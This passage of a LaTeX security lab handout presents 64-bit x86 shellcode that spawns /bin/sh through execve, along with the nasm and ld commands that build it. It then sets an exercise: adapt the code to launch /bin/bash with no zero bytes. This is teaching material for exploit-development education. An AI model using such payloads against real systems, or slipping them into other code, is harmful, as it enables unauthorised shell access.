 \begin{lstlisting}[caption={A 64-bit shellcode \texttt{mysh\_64.s}}]
  section .text
  global _start
    _start:
      ; The following code calls execve("/bin/sh", ...)
      xor  rdx, rdx       ; 3rd argument (stored in rdx)
      push rdx
      mov rax,'/bin//sh'  
      push rax
      mov rdi, rsp        ; 1st argument (stored in rdi)
      push rdx
      push rdi
      mov rsi, rsp        ; 2nd argument (stored in rsi)
      xor  rax, rax
      mov al, 0x3b        ; execve()
      syscall
\end{lstlisting}

We can use the following commands to compile the assemble code into
64-bit binary code: 

\begin{lstlisting}
$ nasm -f elf64 mysh_64.s -o mysh_64.o
$ ld mysh_64.o -o mysh_64
\end{lstlisting}

\paragraph{Task.}
Repeat Task 1.b for this 64-bit shellcode. Namely, 
instead of executing \texttt{"/bin/sh"}, we need to execute
\texttt{"/bin/bash"}, and we are not allowed to use
any redundant \texttt{/} in the command string, 
i.e., the length of the command must be 9 bytes (\texttt{/bin/bash}).
Please demonstrate how you can do that.
In addition to showing that you can get a bash shell, you also
need to show that there is no zero in your code. 

\section{Submission}












